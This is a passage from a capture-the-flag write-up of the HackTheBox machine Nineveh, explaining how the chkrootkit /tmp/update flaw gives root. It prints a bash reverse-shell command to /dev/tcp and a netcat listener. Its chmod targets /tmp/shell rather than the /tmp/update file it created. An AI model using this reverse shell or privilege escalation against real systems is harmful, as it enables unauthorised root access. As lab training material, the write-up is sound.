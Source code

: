 This loop of code will execute any file in `$SLAPPER_FILES` because of missing quotation marks around 
the variable assignment. `$SLAPPER_FILES` is set a few lines earlier:

![set-37](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nineveh/img/set-37.png)

So if we write a reverse shell and place it in `/tmp/update`, it should then get executed by the user 
running `chkrootkit` which is usually root. 

To create the reverse shell file i use:
	
```bash
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.61/9009 0>&1' > /tmp/update
chmod +x /tmp/shell
```

I start my listener:

```bash
rlwrap nc -lnvp 9009
```

And a get a connection:

![root-38](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nineveh/img/root-38.png)
